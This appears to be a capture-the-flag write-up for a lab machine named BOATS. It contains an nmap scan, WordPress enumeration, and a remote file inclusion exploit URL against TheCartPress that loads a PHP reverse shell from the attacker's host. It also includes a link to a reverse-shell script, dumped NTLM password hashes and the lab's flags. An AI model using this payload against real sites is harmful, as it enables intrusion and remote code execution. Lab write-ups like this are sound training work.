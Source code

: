 # BOATS

![](../.gitbook/assets/2c2adba4bdb943bc91d2787b0dd75fcc.png)

## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Apache httpd 2.2.11 ((Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 3BD2EC61324AD4D27CB7B0F484CD4289
|_http-generator: WordPress 4.0.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.11 (Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9
|_http-title: Boats | Boats
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?         syn-ack ttl 127
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              syn-ack ttl 127 MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49161/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49164/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/d40b08752660478cac2f33439cd128eb.png)

![](../.gitbook/assets/f2286537c77b4636b6d12c0cc74369f1.png)

### WPSCAN

```text
wpscan --url http://172.31.1.14
```

![](../.gitbook/assets/f6b5066a14eb4dc3ad4f6686dd20b9d8.png)

![](../.gitbook/assets/61c294e376d44615b43af642b5cb0e71.png)

![](../.gitbook/assets/fa276d7bfb9f48b8b4c94dd6ce695f31.png)

![](../.gitbook/assets/0f08b91070d84223b166e214add1f0a0.png)

* REMOTE FILE INCLUSION

![](../.gitbook/assets/41eeb250af014e729b3434fa4e51e094.png)

* USE THIS PHP REVERSE SHELL

```text
https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php
```

## EXPLOIT

```text
http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=http://10.10.0.63:8000/shell.php
```

![](../.gitbook/assets/5cab780d52bb47f480b28232c101cd64.png)

## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb59ae94bb3470a4aae24af84ce9f2de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
james:1009:aad3b435b51404eeaad3b435b51404ee:d0f2c5b3610573ca589e7020f8ebef53:::
```

## FLAGS

### USER

```text
8c9dfcf7863de5e0d58c62488a21f74d
```

### ROOT

```text
012f2c008bb3f472eef80963f6d359c8
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

